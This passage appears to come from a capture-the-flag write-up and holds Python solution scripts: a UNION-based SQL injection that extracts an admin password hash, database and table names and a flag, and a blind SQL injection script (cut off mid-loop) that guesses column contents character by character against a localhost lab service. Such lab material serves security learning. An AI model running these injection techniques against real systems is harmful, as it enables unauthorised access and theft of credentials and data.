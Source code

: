 ```python
        return None

# admin password md5 hash
result = ideq('0 union select password,2,3 from users where id=1')
print('admin\'s password md5 hash:', result)

# get database name
result = [ideq('''0 union 
select distinct table_schema,2,3
from information_schema.tables 
limit 1 offset %d''' % i) for i in range(5)]
print('databases:', result)

# get table names
result = [ideq('''0 union
select table_name,2,3
from information_schema.tables
where table_schema = 'exampleDB'
limit 1 offset %d''' % i) for i in range(10)]
print('tables in exampleDB:', result)

# get flag4
result = ideq('0 union select *,2,3 from flag4_is_here')
print('flag4:', result)

```

## blank

- blind sql injection


``` python
#!/usr/bin/env python3

from requests import get
from urllib.parse import quote_plus
from sys import stdout

import warnings
warnings.filterwarnings('ignore')

chars = "abcdefghijklmnopqrstuvwxyz"
chars += chars.upper()
chars += " _{}\"!@#$%^&*()[];:.,/?><\|"

def blank(q):
    url = "http://localhost:10201/blank/?$={}"
    return get(url.format(quote_plus(q)), verify=False).text

def guess(table, column, i, char):
    query = "' WHERE 0 UNION SELECT 1 FROM {table} "
    query += "WHERE substr({column}, {i}, 1) = '{char}"
    q = query.format(column=column, table=table, i=i, char=char)
    return blank(q) == "1"

def dump(table, column):
    i = 1
    result = ""
    while True:
        found = False
        for c in chars:
            stdout.write("\r%s%s" % (result, c))
            stdout.flush()
```